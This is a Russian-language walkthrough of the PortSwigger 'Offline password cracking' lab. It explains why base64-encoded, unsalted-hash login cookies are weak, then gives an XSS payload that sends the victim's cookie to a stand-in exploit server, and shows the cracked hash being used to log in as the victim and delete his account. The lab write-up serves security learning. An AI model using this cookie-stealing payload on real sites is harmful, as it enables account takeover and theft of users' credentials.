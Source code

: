 # Offline password cracking

## Theory

<h3>Сохранение входа пользователей</h3>

Некоторые веб-сайты предполагают, что если файл cookie каким-то образом зашифрован, его нельзя будет угадать, даже если он использует статические значения. Это может быть правдой, если все сделано правильно, "шифрование" файла cookie с использованием простого двустороннего кодирования, такого как Base64, не обеспечивает никакой защиты. Даже правильное шифрование с односторонней хеш-функцией не является полностью надежным. Если злоумышленник может легко идентифицировать алгоритм хеширования и не использовать соль, он потенциально может взломать файл cookie, просто хешировав свои списки слов. Этот метод можно использовать для обхода ограничений на попытки входа в систему, если аналогичный лимит не применяется к догадкам файлов cookie.

Даже если злоумышленник не сможет создать собственную учетную запись, он все равно сможет воспользоваться этой уязвимостью. Используя обычные методы, такие как XSS, злоумышленник может украсть файл cookie другого пользователя и вывести из него, как создается файл cookie. Если веб-сайт был создан с использованием платформы с открытым исходным кодом, ключевые детали создания файлов cookie могут быть даже публично задокументированы.

В некоторых редких случаях можно получить фактический пароль пользователя в открытом виде из файла cookie, даже если он хеширован. Хэшированные версии известных списков паролей доступны в интернете, поэтому, если пароль пользователя появляется в одном из этих списков, расшифровка хэша иногда может быть такой же тривиальной, как просто вставка хэша в поисковую систему. Это демонстрирует важность соли в эффективном шифровании.

## Writeup

* Имеющиеся данные: 
    * Данные нашего пользователя: wiener:peter
    * Данные атакуемого пользователя: carlos

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/1.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/2.png)

Страница аутентификации:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/3.png)

Вводим данные нашего пользователя, нажимаем на кнопку "Stay logged in".

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/4.png)

Во вкладке **HTTP History** найдем GET запрос /my-account. Рядом в окне откроем **Inspector** и перейдем к значению cookie. Он автоматически декодирует его. Возьмем значение хэша и вставим его в crackstation для расшифровки.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/6.png)

Теперь мы знаем как формируется cookie. Открыв любой пост на странице, в конце можно обнаружить поле для комментария. Проверим наличие XSS. Вводим данный скрипт и нажимаем на кнопку "Post Comment".
```
<img src=1 onerror=alert(alert) />
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/7.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/8.png)

Нажимаем на кнопку "Back to blog". Можем заметить, что приложение обработало наш сприпт и выдало реультат.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/9.png)

Сверху страницы есть кнопка с редиректом на наш сервер для эксплоита уязвимости.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/10.png)

Копируем URL.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/11.png)

Перейдем к другому посту к панели комментария. Теперь же наш скрипт будет выглядеть следующим образом.
```
<script>document.location="URL_of_our_exploit_server"+document.cookie</script>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/12.png)

Отправляем скрипт и получаем следующий ответ.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/13.png)

Перейдем к нашему серверу для эксплоита и найдем кнопку "Access log".

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/14.png)

Нажав на нее, мы перейдем к панели, где можем заметить cookie жертвы.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/15.png)

Декодируем в base64.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/16.png)

Отправим хэшированное значение в crackstation.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/17.png)

Логинимcя под Carlos.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/18.png)

Удаляем пользователя и получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Authetication/Offline_password_cracking/assets/19.png)
